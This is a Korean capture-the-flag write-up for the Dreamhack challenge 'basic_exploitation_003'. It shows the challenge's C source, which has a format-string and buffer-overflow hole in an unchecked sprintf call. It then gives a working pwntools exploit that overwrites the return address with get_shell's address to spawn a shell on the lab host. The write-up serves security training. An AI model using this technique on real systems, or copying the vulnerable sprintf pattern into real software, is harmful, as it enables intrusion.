


# basic_exploitation_003

주어진 소스코드는 다음과 같다.   
```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
int main(int argc, char *argv[]) {
    char *heap_buf = (char *)malloc(0x80);
    char stack_buf[0x90] = {};
    initialize();
    read(0, heap_buf, 0x80);
    sprintf(stack_buf, heap_buf);
    printf("ECHO : %s\n", stack_buf);
    return 0;
}
```   

코드를 살펴보면 ```sprintf(stack_buf, heap_buf);```부분에서 FSB와 BOF 취약점을 확인할 수 있다.   
<br/>

   
   
gdb로 분석해보면 버퍼의 크기는 0x98이고 get_shell함수의 주소는 0x8048669이다.   
<br/>

이를 가지고 코드를 작성하면 다음과 같다.
```
from pwn import *

p = remote('host1.dreamhack.games', 12134)

payload = "%156c" + p32(0x08048669)

p.send(payload)
p.interactive()
```
